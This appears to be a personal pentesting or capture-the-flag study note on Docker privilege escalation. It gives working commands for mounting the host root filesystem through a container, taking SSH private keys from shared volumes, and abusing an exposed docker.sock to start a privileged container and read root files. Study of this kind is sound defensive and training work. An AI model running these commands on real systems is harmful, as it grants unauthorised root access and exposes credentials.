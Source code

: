 
## 🐳 What is Docker?

- **Docker** is like a lightweight virtual machine system.
- It uses **containers** to run applications in **isolated environments**.
- Each container is created from a **Docker image** — a ready-to-run mini OS with the app inside.
- The containers run on top of the real system, but they are **separate** — kind of like apps running in their own box.

---

## 🔓 Why Docker Can Be Dangerous

If a user is allowed to **run Docker commands** (is in the `docker` group), **they can break out of the container** and get **root access on the host system**.

---
## 🧠 Who Can Do This?

You can try Docker privilege escalation if:
```bash
id
```
Shows something like:
```bash
uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```
👉 You are in the `docker` group. That means you can fully control Docker — and **that's root-level power**.

___

![[Pasted image 20250712163946.png]]
### Privilege Escalation

We will use the **[GTFOBIN](https://gtfobins.github.io/gtfobins/docker/)** to elevate privileges on the target machine. It tells us that in order to get out of the restricted environment of docker, we need to spawn an interactive shell inside the docker.

![[Pasted image 20250712164006.png]]

We run the script directly from the GTFOBIN. However, it gave us an error stating that it was unable to find the alpine image. Therefore, we use the docker ps -a command to list the images available on this Docker instance. We observe that there is an image named bash. As a result, we replace the image name from alpine to bash in the command. After running the modified command again, we find that we are able to gain root access. Finally, we use the cat command to read the private key for the root user, as required to conclude this machine.

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

docker ps -a

docker run -v /:/mnt --rm -it bash chroot /mnt sh
```


---
## 💣 Privilege Escalation Techniques with Docker
### 🛠 1. Run a container with access to the host system

Use this command:
```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

What this does:
    Runs an Ubuntu container
    Mounts the host system’s root / into the container at /mnt
    Enters the host system as root from inside the container

Now you’re root on the host!

📁 2. Look for shared folders (volume mounts)

Sometimes Docker is set up to share folders from the host system into the container.

Inside the container, you might see:
```bash
cd /hostsystem/home/cry0l1t3
ls -la
```

And find files like `.ssh/id_rsa` (private SSH key).  
Copy it, and then from your local machine:

```bash
ssh cry0l1t3@<host-ip> -i cry0l1t3.priv
```
✅ You’re now logged in as that user.

___
### 🧷 3. Docker socket abuse (`docker.sock`)

You might find a file like:
```bash
srw-rw---- 1 root root 0 Jun 30 15:27 docker.sock
```

This is the **Docker socket**, used to talk to the Docker daemon (the real brain behind containers).

If it's accessible:
- You can upload a Docker binary
- Then run Docker commands **inside the container** to start a new **privileged container** and escape

Example:
```bash
/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
```

Then : 

```bash
/tmp/docker -H unix:///app/docker.sock exec -it <container_id> /bin/bash
cd /hostsystem
cat /hostsystem/root/flag.txt

```

💥 You now have root access to the host system via a Docker container!

# 🧪 Bonus: Docker Compose or SUID Docker

If docker is run with SUID (setuid permission), or you're in the sudoers file and allowed to run Docker, same idea applies. You can start privileged containers, mount the host, and escape.